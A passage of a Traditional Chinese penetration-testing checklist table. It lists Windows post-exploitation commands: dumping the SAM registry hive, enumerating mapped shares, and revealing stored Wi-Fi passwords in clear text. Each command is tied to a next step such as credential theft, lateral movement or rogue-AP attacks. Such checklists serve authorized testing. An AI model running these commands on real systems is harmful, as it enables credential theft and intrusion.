| <p>如果可以使用admin 開啟cmd.exe</p><p></p><p>reg save HKLM\SAM C:\sam.save </p>                                       | 成功                                                                                                                                                                                                                                                                                                                             |                                                               | SAM 攻擊                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| <p></p><ol start="6"><li><mark style="color:red;">機密提取 / 控制權奪取 / 攻擊橫向擴張</mark></li></ol>                       |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| `net use`                                                                                                      | 列出網路磁碟掛載、憑證綁定、AD 使用紀錄                                                                                                                                                                                                                                                                                                          | 有磁碟掛載                                                         | 掃描共用資料夾找憑證、內部資源與 Payload 放置點                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| `netsh wlan show profile`                                                                                      | 檢查無線網路清單                                                                                                                                                                                                                                                                                                                       | 有 Wi-Fi 設定檔                                                   | 下一步使用 key=clear 取出密碼                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| `netsh wlan show profile <ProfileName> key=clear`                                                              | 顯示明文 Wi-Fi 密碼                                                                                                                                                                                                                                                                                                                  | 密碼出現                                                          | 進行無線網路滲透（無線中繼、偽 AP 攻擊）                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |

***

> 💡此表格可配合每次主機滲透過程逐項操作，逐條判斷是否能提權、轉向、獲取憑證或進行後門維持。 若需匯出 PDF、Markdown、或轉成可執行腳本（如 AutoRecon 模組），可進一步告知。
